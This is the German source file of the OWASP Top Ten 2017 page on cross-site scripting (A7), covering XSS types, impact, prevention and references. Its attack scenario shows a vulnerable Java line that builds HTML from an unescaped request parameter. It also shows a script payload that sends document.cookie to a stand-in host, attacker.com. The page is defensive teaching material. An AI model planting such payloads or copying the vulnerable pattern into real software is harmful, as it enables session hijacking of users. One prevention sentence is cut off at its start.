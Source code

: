 ```yaml
---

document: OWASP Top Ten 2017 (de)
year: 2017
order: 13
en: A7_2017-Cross-Site_Scripting_(XSS)
title: A7:2017 Cross-Site Scripting (XSS)
lang: de
layout: full-width-document
author:
contributors:
tags: OWASP Top Ten 2017 (de), Top Ten, A7:2017, xss, de
exploitability: 3
prevalence: 3
detectability: 3
technical: 2

---
```


{% include risk_begin.html %}
{%- include risk_description.html pos="firstLeft" -%}
<!--- Threat Agent: --->
Automatisierte Tools können alle drei Formen von XSS erkennen und ausnutzen. Dafür sind Exploitation-Frameworks frei verfügbar.
{%- include risk_description.html pos="mid" -%}
<!--- Security Weakness: --->
XSS ist bzgl. der Anzahl der betroffenen Anwendungen in der [Datenerhebung](Methodik_und_Daten) die zweithäufigste Schwachstelle in der OWASP Top 10. Sie findet sich in etwa zweidrittel aller Anwendungen.<br>Automatisierte Tools können einige XSS-Schwachstellen automatisch finden. Das gilt insbesondere für ausgereifte Technologien wie PHP, J2EE / JSP und ASP.NET.
{%- include risk_description.html pos="right" -%}
<!--- Impacts: --->
Der Schaden durch XSS ist mittel für reflektiertes und DOM-basiertes XSS und schwerwiegend für persistentes XSS. Es kann zu Remote-Code-Execution im Browser des Opfers führen, beispielsweise für den Diebstahl von Zugangsdaten, Sessions oder zur Verbreitung von Schadsoftware beim Opfer.
{%- include risk_end.html -%}

{%- include t10_subsection_begin.html -%}
{%- include t10_subsection.html token="isTheApplicationVulnerable" pos="firstLeft" -%}
Es gibt drei Formen von XSS, die üblicherweise auf die Browser des Benutzers abzielen:<br>
* **Reflektiertes XSS**: Die Anwendung oder API beinhaltet ungeprüfte und nicht maskierte Nutzereingaben (Escaping) als Teil des HTML-Outputs. Ein erfolgreicher Angriff erlaubt es einem Angreifer, beliebiges HTML und JavaScript im Browser des Opfers auszuführen. Typischerweise wird ein Anwender dazu einen schädlichen Link aufrufen müssen, der auf eine vom Angreifer kontrollierte Seite zeigt, z.B. infizierte populäre Websites (Watering-Hole), Werbung oder vergleichbares.<br>
* **Persistentes XSS**: Die Anwendung oder API speichert unbereinigten Nutzer-Input der zu einem späteren Zeitpunkt von einem anderen Nutzer oder Administrator angezeigt wird. Persistentes XSS wird oft als hohes oder kritisches Risiko eingeschätzt.<br>
* **DOM-basiertes (lokales) XSS**: JavaScript Frameworks, Single-Page-Anwendungen und APIs, die vom Angreifer kontrollierte Daten dynamisch einbinden, sind für DOM-basiertes XSS anfällig. Im Idealfall würde die Anwendung keine vom Angreifer kontrollierten Daten an unsichere JavaScript APIs senden.<br>
Typische XSS-Angriffe sind Diebstahl von Sessions, Übernahme von Accounts, MFA-Bypass-Angriffe, DOM-Node-Replacementsoder Defacements (wie betrügerische Login-Seiten), Angriffe gegen den Browser des Nutzer wie schädliche Software-Downloads, Key-Logger und andere Client-basierte Angriffe.

{%- include t10_subsection.html token="howToPrevent" pos="right" -%}
von aktiven Browserinhalten getrennt werden. Das kann erreicht werden durch:<br>
* Verwendung von Frameworks, die XSS automatisch (by Design) maskieren, wie z.B. das aktuellste Ruby on Railsoder React JS. Lernen Sie die Einschränkungen des XSS-Schutzes jedes Frameworks kennen und sorgen Sie für eine angemessene Behandlung nicht abgedeckter Fälle.<br>
* Maskieren der nicht vertrauenswürdigen Daten in HTTP-Anfragen auf Grundlage des Kontexts im HTML Output (body, attribute, JavaScript, CSS oder URL) zur Verhinderung von Schwachstellen mit reflektiertem und persistentem XSS. Das [OWASP Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) bietet weitere Informationen über erforderliche Maskierungs-Techniken.<br>
* Kontextsensitive Kodierung bei der Modifikation der Browserdaten auf der Client-Seite schützt vor DOM-basiertem XSS. Falls das auf diese Weise nicht vermieden werden kann, können vergleichbare kontextsensitive Maskierungs-Techniken auf Browser APIs angewendet werden, wie im [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) beschrieben.<br>
* Aktivierung von [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) als tiefgreifende Schutzmaßnahme gegen XSS, so lange keine anderen Schwachstellen die lokale Einbindung von Schadcode erlauben (z.B. path traversal overwrites oder verwundbare Bibliotheken aus verwendeten Quellen).

{%- include t10_subsection.html token="exampleAttackScenarios" pos="left" -%}
**Szenario 1**: Die Anwendung übernimmt nicht vertrauenswürdige Daten, die nicht auf Gültigkeit geprüft oder maskiert werden, um folgenden HTML-Code zu generieren:<br>
    {% include code_red_begin.html -%} (String) page += "<input name='creditcard' type='TEXT' {%- include code_red_end.html %}
    {% include code_red_begin.html -%} value='" + request.getParameter("CC") + "'>"; {%- include code_red_end.html %}

Der Angreifer ändert den Parameter ‘CC’ in seinem Browser auf:<br>
    {% include code_red_begin.html -%} '>&lt;script>document.location= {%- include code_red_end.html %}
    {% include code_red_begin.html -%} 'http://www.attacker.com/cgi-bin/cookie.cgi? {%- include code_red_end.html %}
    {% include code_red_begin.html -%} foo='+document.cookie&lt;/script>'. {%- include code_red_end.html %}
<br>
Durch diesen Angriff wird die Session-ID des Benutzers an die Seite des Angreifers gesendet, so dass der Angreifer die aktuelle Benutzersession übernehmen kann.<br>
**Anmerkung:** Angreifer können XSS nutzen, um jegliche automatisierte Abwehr der Anwendung gegen Cross-Site Request Forgery (CSRF) zu umgehen.

{%- include t10_subsection.html token="references" pos="right" -%}
**OWASP**<br>
* [OWASP Proactive Controls: Encode and Escape Data](/www-project-proactive-controls/v3/en/c4-encode-escape-data)<br>
* [OWASP Proactive Controls: Validate All Inputs](/www-project-proactive-controls/v3/en/c5-validate-inputs)<br>
* [OWASP Application Security Verification Standard: V5](/www-project-application-security-verification-standard)<br>
* [OWASP Testing Guide: Testing for Reflected XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for Stored XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for DOM XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client_Side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)<br>
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: XSS Filter Evasion](/www-community//xss-filter-evasion-cheatsheet)<br>
* [OWASP Java Encoder Project](/www-project-java-encoder) ([old wiki](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project))<br>
<br>
**Andere**<br>
* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)<br>
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
{% include t10_subsection_end.html %}